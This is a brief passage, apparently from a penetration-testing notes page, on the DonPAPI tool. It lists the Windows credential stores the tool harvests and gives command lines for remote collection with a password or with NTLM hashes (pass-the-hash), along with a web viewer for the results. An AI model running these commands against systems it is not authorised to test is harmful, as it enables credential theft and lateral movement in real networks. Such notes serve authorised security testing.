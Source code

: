 - `Files`: Files on Desktop and and Recent folder

- `SCCM`: SCCM Credentials

- `Vaults`: Vaults Credentials

- `VNC`: VNC Credentials

- `Wifi`: Wifi Credentials

You can use it with only the username and his password:

`DonPAPI collect -d $DOMAIN -u $USER -p $PASSWORD -t $TARGET_IP`

## More options

`donpapi gui`: allows to see the found credentials in a web GUI.

> You can use the `--basic-auth $USER:$PASSWORD` with the `gui` option so that not everyone has access to it.
{: .prompt-tip}

`-H LMHASH:NTHASH` allows you to provide hashes instead of passwords